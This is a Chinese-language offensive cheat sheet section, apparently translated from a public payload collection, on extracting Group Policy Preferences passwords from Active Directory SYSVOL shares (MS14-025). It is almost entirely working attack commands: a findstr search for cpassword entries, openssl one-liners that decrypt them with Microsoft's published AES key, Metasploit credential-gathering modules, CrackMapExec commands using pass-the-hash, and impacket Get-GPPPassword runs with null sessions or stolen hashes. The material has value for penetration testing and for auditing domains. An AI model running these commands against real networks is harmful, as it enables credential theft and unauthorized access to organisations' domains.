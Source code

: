 ## 在SYSVOL和组策略首选项中的密码

在SYSVOL中查找密码（MS14-025）。SYSVOL是Active Directory中的域范围共享，所有经过身份验证的用户都有读取权限。所有域组策略都存储在这里：`\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`。

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

解密在SYSVOL中找到的组策略密码（由[0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)提供），使用微软在[MSDN - 2.2.1.1.4 密码加密](https://msdn.microsoft.com/en-us/library/cc422924.aspx)中提供的32字节AES密钥



```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

### 自动执行SYSVOL和密码研究

* Metasploit模块用于枚举共享和凭据

  ```c
  scanner/smb/smb_enumshares
  post/windows/gather/enum_shares
  post/windows/gather/credentials/gpp
  ```

* CrackMapExec模块

  ```powershell
  cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
  cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
  ```

* [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)

  ```powershell
  # 使用空会话
  Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
  
  # 使用明文凭据
  Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  
  # 传递哈希
  Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  ```
